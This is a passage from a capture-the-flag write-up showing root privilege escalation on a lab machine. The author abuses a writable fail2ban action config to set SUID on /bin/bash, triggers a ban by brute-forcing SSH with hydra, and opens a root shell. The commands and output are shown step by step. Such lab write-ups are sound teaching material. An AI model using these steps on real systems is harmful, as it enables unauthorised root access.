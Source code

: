 **To do so, I'll:**

- `Find` writable config files:

```
fred@biteme:~$ find /etc -writable -ls 2>/dev/null
   156253      4 drwxrwxrwx   2 root     root         4096 Nov 13  2021 /etc/fail2ban/action.d
   142010      4 -rw-r--r--   1 fred     root         1420 Nov 13  2021 /etc/fail2ban/action.d/iptables-multiport.conf
```

As we can see, **the `/etc/fail2ban/action.d/iptables-multiport.conf` is writable for us.**

**iptables-multiport.conf:**
```
fred@biteme:/etc/fail2ban/action.d$ cat iptables-multiport.conf
[...]
# Option:  actionban
# Notes.:  command executed when banning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
[...]
```

Hmm... Since we have access to write stuff into it, **what if it adds SUID sticky bit into `/bin/bash`, instead of executing the `iptables` command when we trigged the `actionban`??**

- Modify the `iptables-multiport.conf`'s `actionban`:

```
actionban = chmod +s /bin/bash
```

- Restart the `fail2ban` service to apply changes:

```
fred@biteme:/etc/fail2ban/action.d$ sudo /bin/systemctl restart fail2ban
```

- Trigger the `actionban` by bruteforcing SSH:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/biteme]
└─# hydra -l anyuser -P /usr/share/wordlists/rockyou.txt ssh://$RHOSTS
[...]
```

- Verify the exploit works:

```
fred@biteme:/etc/fail2ban/action.d$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1.1M Jun  6  2019 /bin/bash
```

It works!! **Let's spawn a bash shell with SUID privilege!**

```
fred@biteme:/etc/fail2ban/action.d$ /bin/bash -p
bash-4.4# whoami;hostname;id;ip a
root
biteme
uid=1001(fred) gid=1001(fred) euid=0(root) egid=0(root) groups=0(root),1001(fred)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:62:cd:c5:ec:75 brd ff:ff:ff:ff:ff:ff
    inet 10.10.136.9/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3001sec preferred_lft 3001sec
    inet6 fe80::62:cdff:fec5:ec75/64 scope link 
       valid_lft forever preferred_lft forever
```
